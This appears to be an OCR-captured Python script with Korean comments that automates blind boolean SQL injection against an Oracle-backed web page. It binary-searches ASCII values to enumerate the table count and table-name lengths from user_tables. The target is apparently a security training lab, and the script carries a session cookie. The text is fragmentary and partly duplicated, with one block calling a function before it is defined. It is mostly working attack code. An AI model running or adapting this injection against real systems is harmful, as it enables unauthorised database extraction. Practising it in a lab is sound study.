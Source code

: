 #    select length(table_name) from (select table_name, rownum as ln from user_tables) where ln = {1~count}
# 1-2-2. 테이블 한 글자씩 
#    select ascii(substr(table_name,{1~length},1)) from (select table_name, rownum as ln from user_tables) where ln = {1~count}

query = "select count(table_name) from user_tables"
count = binarySearch(query)
print(f"1-1. 테이블 개수 : {count}개")

for queryCount in range(1, count + 1):
    query = f"select length(table_name) from (select table_name, rownum as ln from user_tables) where ln = {queryCount}"
    length = binarySearch(query)
    print(f"1-2-1. {queryCount} 번째 테이블 명의 문자열 길이 : {length} 글자")



6.. 

import requests
requests.packages.urllib3.disable_warnings()

url = "https://elms2.skinfosec.co.kr:8222/practice/practice01/detail?id=62"

cookies = {
    "JSESSIONID": "DD69440070FB72FBDCD551628468CE83"
}

def binarySearch(query):
    """주어진 쿼리에 대해 이진 탐색을 수행하여 값을 찾습니다."""
    min_val = 1
    max_val = 127
    while min_val < max_val:
        avg = (min_val + max_val) // 2
        attackQuery = f"({query}) > {avg}"
        attackUrl = url + " and " + attackQuery        
        res = requests.get(attackUrl, cookies=cookies)

        if '권한이' in res.text:
            print("쿠키를 다시 넣어주세요.")
            exit()

        if 'MacBook' in res.text:       
            min_val = avg + 1
        else:
            max_val = avg
    return min_val

# 1. 테이블 개수 확인
table_count_query = "select count(table_name) from user_tables"
count = binarySearch(table_count_query)
print(f"1-1. 테이블 개수: {count}개")
